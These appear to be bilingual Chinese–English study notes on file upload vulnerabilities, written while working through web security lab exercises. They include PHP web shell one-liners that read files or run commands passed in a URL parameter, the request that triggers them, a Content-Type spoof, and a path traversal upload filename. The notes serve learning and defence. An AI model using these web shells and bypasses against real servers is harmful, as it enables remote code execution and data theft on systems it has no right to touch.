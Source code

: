 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

PHP 
- <"?php echo file_get_contents('/path/to/target/file'); ?">
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

## Lab: Remote code execution via web shell upload
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<?php echo file_get_contents('/home/carlos/secret'); ?>)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png

## Lab: Web shell upload via Content-Type restriction bypass
- change Content-Type : image/jpeg

## Lab: Web shell upload via path traversal
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
